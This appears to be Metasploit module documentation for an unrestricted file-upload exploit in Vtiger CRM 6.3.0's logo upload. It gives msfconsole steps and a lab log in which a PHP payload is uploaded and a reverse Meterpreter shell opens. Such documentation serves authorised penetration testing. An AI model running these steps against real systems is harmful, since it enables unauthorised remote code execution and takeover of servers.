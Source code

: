 ## Description

Vtiger v6.3.0 CRM's administration interface allows for the upload of a company logo.
The logo upload allows unrestricted file upload and can be used to upload php code,
which can then be executed by requesting the uploaded file location.


## Vulnerable Application

[Vtiger v6.3.0](https://sourceforge.net/projects/vtigercrm/files/vtiger%20CRM%206.3.0/Core%20Product/)


## Options

### PHPSHORTTAG
Specify the use of php short tag, `<? `, for wrapping the payload.
Default: true


## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/vtiger_logo_upload_exec`
3. `set rhosts <rhost>`
4. `set password <password>`
5. `run`


## Scenarios

### VtigerCRM v6.3.0 tested on Windows 10 x64 (Apache 2.2.26 / PHP 5.3.10)

```
msf > use exploit/multi/http/vtiger_logo_upload_exec
msf exploit(multi/http/vtiger_logo_upload_exec) > set rhosts 172.22.222.175
rhosts => 172.22.222.175
msf exploit(multi/http/vtiger_logo_upload_exec) > set rport 8899
rport => 8899
msf exploit(multi/http/vtiger_logo_upload_exec) > set password admin
password => admin
msf exploit(multi/http/vtiger_logo_upload_exec) > run 

[*] Started reverse TCP handler on 172.22.222.121:4444 
[*] Uploading payload: KpXAXQNKjN.php
[*] Sending stage (37775 bytes) to 172.22.222.175
[*] Meterpreter session 1 opened (172.22.222.121:4444 -> 172.22.222.175:50295) at 2018-07-30 11:53:50 -0500
[+] Deleted KpXAXQNKjN.php

meterpreter > sysinfo
Computer    : MSEDGEWIN10
OS          : Windows NT MSEDGEWIN10 6.2 build 9200 (Unknow Windows version Enterprise Edition) i586
Meterpreter : php/windows
meterpreter >
```

